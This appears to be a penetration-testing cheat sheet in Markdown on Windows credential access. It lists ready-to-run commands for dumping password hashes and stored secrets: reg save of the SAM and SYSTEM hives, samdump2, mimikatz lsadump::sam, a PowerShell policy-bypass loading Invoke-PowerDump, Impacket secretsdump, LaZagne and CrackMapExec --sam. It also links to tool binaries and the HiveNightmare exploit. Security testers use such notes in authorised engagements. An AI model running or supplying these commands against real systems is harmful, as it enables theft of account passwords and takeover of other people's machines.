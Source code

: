 # Credential Access

The adversary is trying to steal account names and passwords.

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`
  
- [ ] Mimikats
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
  
  ```
  privilege::debug
  token::elevate
  lsadump::sam
  ```
  
- [ ] Pypykatz
  - https://github.com/skelsec/pypykatz
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release
  
 - [ ] Windows WiFi Password Extractor
  - https://github.com/hmaverickadams/Windows-WiFi-Extractor

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip

- [ ] Powershell Script
  - https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
  - `powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"`


- [ ] Impacket
  - `./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL`

- [ ] lazagne.exe
  - project https://github.com/AlessandroZ/LaZagne
  - binaries https://github.com/AlessandroZ/LaZagne/releases/
  - `lazagne.exe all`

- [ ] CrackMapExec 
  - `crackmapexec smb 192.168.1.105 -u 'AdministratorUsername' -p 'password1234' --sam`
  
### References
- https://www.hackingarticles.in/credential-dumping-sam/
